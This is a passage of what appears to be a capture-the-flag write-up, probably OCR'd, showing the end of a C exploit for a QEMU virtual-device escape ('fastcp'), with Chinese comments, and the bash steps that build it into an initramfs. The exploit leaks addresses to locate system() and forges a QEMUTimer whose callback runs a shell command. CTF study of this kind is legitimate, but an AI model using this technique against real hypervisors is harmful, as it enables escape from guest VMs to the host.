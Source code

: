 ```C
    fastcp_do_readfrombuffer(phy_userbuf, 0x1030);
    fastcp_do_writetobuffer(phy_userbuf + 0x1000, 0x30);
    fastcp_do_readfrombuffer(phy_userbuf, 0x30);

    //泄露pie,得到system函数的地址
    uint64_t leak_timer = *(uint64_t*)(&userbuf[0x10]);
    printf("leaking timer: %p\n", (void*)leak_timer);
    fastcp_set_cnt(1);
    uint64_t pie_base = leak_timer - 0x4dce80;
    printf("pie_base: %p\n", (void*)pie_base);
    uint64_t system_plt = pie_base + 0x2C2180;
    printf("system_plt: %p\n", (void*)system_plt);
    //堆上的某个地址
    uint64_t struct_head = *(uint64_t*)(&userbuf[0x18]);

    struct QEMUTimer timer;
    memset(&timer, 0, sizeof(timer));
    timer.expire_time = 0xffffffffffffffff;
    timer.timer_list = *(uint64_t*)(&userbuf[0x8]);
    timer.cb = system_plt;
    timer.opaque = struct_head + 0xa00 + 0x1000 + 0x30; //这里应该是在qemu这个进程中timer.shell
    printf("struct_head: %p\n",struct_head);
    strcpy(&timer.shell, "echo flag{a_test_flag}");
    //变量仅仅在栈上或堆上是不行的，得到mmio里面去才能被qemu用
    memcpy(userbuf + 0x1000, &timer, sizeof(timer));
    //把src复制到buffer,再把buffer复制到dst
    //把src复制到buffer时就把整个结构体中的timer结构体给覆盖为我们自己修改后的结构体
    fastcp_do_movebuffer(gva_to_gpa(userbuf + 0x1000) - 0x1000, gva_to_gpa(userbuf + 0x1000) - 0x1000, 0x1000 + sizeof(timer));
    fastcp_do_cmd(1);

    return 0;
}
```

```bash
mkdir exp
cp ./initramfs-busybox-x64.cpio.gz ./exp/
cd exp
gunzip ./initramfs-busybox-x64.cpio.gz 
cpio -idmv < ./initramfs-busybox-x64.cpio

mkdir root
cp ../exp.c ./root/
gcc ./root/exp.c -o ./root/exp -static 
find . | cpio -o --format=newc > initramfs-busybox-x64.cpio
gzip initramfs-busybox-x64.cpio
cp initramfs-busybox-x64.cpio.gz ..
```

D3BabyEscape
============

